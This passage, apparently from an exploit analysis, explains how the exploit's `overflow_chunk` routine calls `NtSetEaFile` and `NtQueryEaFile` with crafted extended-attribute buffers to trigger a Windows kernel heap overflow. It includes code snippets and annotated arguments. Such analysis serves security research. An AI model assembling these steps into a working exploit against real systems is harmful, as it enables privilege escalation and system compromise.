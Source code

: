 Now, let's examine the implementation within `overflow_chunk`: 

* `file`: The handle `FileHandle`, in our case set to the file we created at `c:\\users\\chenl\\desktop\\ABC.txt`.
* `&x`: The pointer to the output `IoStatusBlock` structure.
* `payload`: A pointer to the target `EaBuffer`.
* `0x300`: The size of the target `EaBuffer`. 

Let's now look at the call to `NtSetEaFile` in `overflow_chunk`:

```cpp
status = _NtSetEaFile(file, &x, payload, 0x300);
if (!NT_SUCCESS(status)) {
    log_warn("overflow_chunk::_NtSetEaFile()1");
    goto out;
}
```

We move onto the call to `NtQueryEaFile`: 

```cpp
status = _NtQueryEaFile(file, &x, fetched_data, 0xaa, FALSE, vuln_selector, 0x300, NULL, TRUE);
if (!NT_SUCCESS(status)) {
    log_warn("overflow_chunk::_NtQueryEaFile()1");
    goto out;
}
```

As with `NtSetEaFile`, let's examine the function prototype from [NTInternals](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FFile%2FNtQueryEaFile.html):

```cpp
NtQueryEaFile(
  IN HANDLE               FileHandle,
  OUT PIO_STATUS_BLOCK    IoStatusBlock,
  OUT PVOID               Buffer,
  IN ULONG                Length,
  IN BOOLEAN              ReturnSingleEntry,
  IN PVOID                EaList OPTIONAL,
  IN ULONG                EaListLength,
  IN PULONG               EaIndex OPTIONAL,
  IN BOOLEAN              RestartScan
);
```

Now, let's examine the implementation within `overflow_chunk`: 

* `file`: The handle `FileHandle`, in our case set to the file we created at `c:\\users\\chenl\\desktop\\ABC.txt`.
* `&x`: The pointer to the output `IoStatusBlock` structure.
* `fetched_data`: A pointer to the output `Buffer`.
* `0xaa`: The length of the buffer in bytes.
* `FALSE`: Do not return a single entry only.
* `vuln_selector`: The list of `FILE_GET_EA_INFORMATION` structures which contain the names of the file's *ExtendedAttributes*.
* `0x300`: The length of the `EaList` in bytes.
* `NULL`: The pointer to the index of the file's *ExtendedAttribute* structure. 
* `TRUE`: Return the first queried *ExtendedAttribute*.
